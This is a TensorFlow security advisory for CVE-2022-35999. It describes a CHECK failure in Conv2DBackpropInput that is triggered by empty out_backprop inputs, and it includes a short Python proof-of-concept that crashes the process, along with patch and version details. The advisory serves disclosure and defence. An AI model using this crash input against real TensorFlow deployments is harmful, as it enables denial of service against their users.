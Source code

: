 ## TFSA-2022-121: `CHECK` fail in `Conv2DBackpropInput`

### CVE Number
CVE-2022-35999

### Impact
When `Conv2DBackpropInput` receives empty `out_backprop` inputs (e.g. `[3, 1, 0, 1]`), the current CPU/GPU kernels `CHECK` fail (one with dnnl, the other with cudnn). This can be used to trigger a denial of service attack.
```python
import tensorflow as tf
import numpy as np
input_sizes = [3, 1, 1, 2]
filter = np.ones([1, 3, 2, 3])
out_backprop = np.ones([3, 1, 0, 3])
strides = [1, 1, 2, 1]
padding = 'VALID'

tf.raw_ops.Conv2DBackpropInput(
   input_sizes = input_sizes,
   filter = filter,
   out_backprop = out_backprop,
   strides = strides,
   padding = padding
)
```

### Patches
We have patched the issue in GitHub commit [27a65a43cf763897fecfa5cdb5cc653fc5dd0346](https://github.com/tensorflow/tensorflow/commit/27a65a43cf763897fecfa5cdb5cc653fc5dd0346).

The fix will be included in TensorFlow 2.10.0. We will also cherrypick this commit on TensorFlow 2.9.1, TensorFlow 2.8.1, and TensorFlow 2.7.2, as these are also affected and still in supported range.


### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.


### Attribution
This vulnerability has been reported by Jingyi Shi.

